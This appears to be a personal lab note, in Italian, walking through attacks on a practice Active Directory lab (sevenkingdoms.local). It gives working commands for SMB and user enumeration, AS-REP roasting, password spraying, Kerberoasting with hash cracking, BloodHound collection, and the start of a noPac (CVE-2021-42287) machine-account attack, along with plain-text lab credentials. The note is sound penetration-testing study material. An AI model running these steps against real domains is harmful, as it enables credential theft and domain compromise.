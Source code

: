 ### **SUBNET ENUM**
Inizio enumerando l'intera subnet con cme alla ricerca du samba
```bash
crackmapexec smb 192.168.56.0/24
```
![[Pasted image 20230810122313.png]]
Ora trovo gli ip dei DC per configurare /etc/hosts e capire la topologia
```bash
nslookup -type=srv _ldap._tcp.dc._msdcs.sevenkingdoms.local 192.168.56.10
```
cambia ogni volta il nome del dominio
![[Pasted image 20230810124141.png]]
quindi modifico /etc/hosts per risolvere gli indirizzi
![[Pasted image 20230810124229.png]]

### **USER ENUM (NO CREDS)**
Enumero gli user presenti su ogni macchine
```bash
crackmapexec smb 192.168.56.11 --users
```
Ha SAMRPC attivo e quindi potrò enumerare gli user
![[Pasted image 20230810163553.png]]
Ho ottenuto anche una password trovata nella descrizione negli user

Puoi anche ottenere la policy della password per provare del bruteforce
```bash
crackmapexec smb 192.168.56.11 --pass-pol
```
![[Pasted image 20230810164319.png]]
Potresti usare anche enu4linux ma non ho voglia

### **SHARE SMB (NO CREDS)**
Enumeriamo gli share di smb su cui abbiamo qualche permesso come anonimo
```bash
crackmapexec smb 192.168.56.10-23 -u 'guest' -p '' --shares
```
![[Pasted image 20230810165921.png]]
cioccato

### **ASPREP-roasting**
Hai trovato la lista degli username, ora spolvera gli appunti
```bash
impacket-GetNPUsers 'north.sevenkingdoms.local/' -no-pass -usersfile users.txt -format hashcat -outputfile hash
```
![[Pasted image 20230810171242.png]]
cracca l'hash
![[Pasted image 20230810171924.png]]

### **Password Spraying**
==OCCHIO ALLE POLICY DELLE PASSWORD PERCHE POTRESTI LOCKARE LE PASSWORD==
```bash
crackmapexec smb 192.168.56.11 -u user.txt -p user.txt --no-bruteforce
```
![[Pasted image 20230810172208.png]]
### **NTLM RELAY**
Controlliamo tra gli host se ce ne è uno con l'opzione "signing:False"
```bash
crackmapexec smb 192.168.56.10-23 --gen-relay-list relay.txt
```
![[Pasted image 20230825154818.png]]
Da approfondire quando si potrà
### **USER ENUM(W\ CREDS)**
Per ottenere tutti gli User di un dominio avendo un account a disposizione
```bash
impacket-GetADUsers -all north.sevenkingdoms.local/brandon.stark:iseedeadpeople 
```
![[Pasted image 20230825105044.png]]

### **KERBEROASTING (SPN)**
Proviamo a vedere se c'è qualche SPN settato e con l'hash in chiaro (Cosa che capita spesso)
```bash
impacket-GetUserSPNs -request -dc-ip 192.168.56.11 north.sevenkingdoms.local/brandon.stark:iseedeadpeople -outputfile kerberoasting.hashes
```
![[Pasted image 20230825112141.png]]
Gli hash di questi due utenti sono stati inseriti nel file kerberoasting.hashes (opzione -outpoutfile)

Puoi usare anche crackmapexec per farlo
```bash
cme ldap 192.168.56.11 -u brandon.stark -p 'iseedeadpeople' -d north.sevenkingdoms.local --kerberoasting KERBEROASTING
```

Cracca gli hash
```bash
hashcat -m 13100 -a 0 kerberoasting.hashes /usr/share/wordlists/rockyou.txt
```
![[Pasted image 20230825114831.png]]
Solo un hash è stata craccata

### **AD ENUM (BLOODHOUND)**
Ora che abbiamo trovato delle credenziali per accedere possiamo fare un enumerazione dell'ad tramite bloodhound e trovare i vari path per gli account
```bash
xfreerdp /u:jon.snow /p:iknownothing /d:north /v:192.168.56.22 /cert-ignore
```
Passa l'exe ed avvialo, enumerando tutti e 3 i domain
```bash
.\sharphound.exe -d north.sevenkingdoms.local -c all --zipfilename bh_north_sevenkingdoms.zip
.\sharphound.exe -d sevenkingdoms.local -c all --zipfilename bh_sevenkingdoms.zip
.\sharphound.exe -d essos.local -c all --zipfilename bh_essos.zip
```

### **SamAccountName (NoPac) CVE-2021-42287**
Per questo passaggio sc
Vediamo il machine account quota (Quanti computer puoi aggiungere al domain) dell'account trovato con il kerberoasting
```bash
crackmapexec ldap winterfell.north.sevenkingdoms.local -u jon.snow -p iknownothing -d north.sevenkingdoms.local -M MAQ
```
![[Pasted image 20230825161202.png]]
Ora aggiungiamo il nuovo computer al domain
```bash
impacket-addcomputer -computer-name 'samaccountname$' -computer-pass 'ComputerPassword' -dc-host winterfell.north.sevenkingdoms.local -domain-netbios NORTH 'north.sevenkingdoms.local/jon.snow:iknownothing'
```
![[Pasted image 20230825162234.png]]
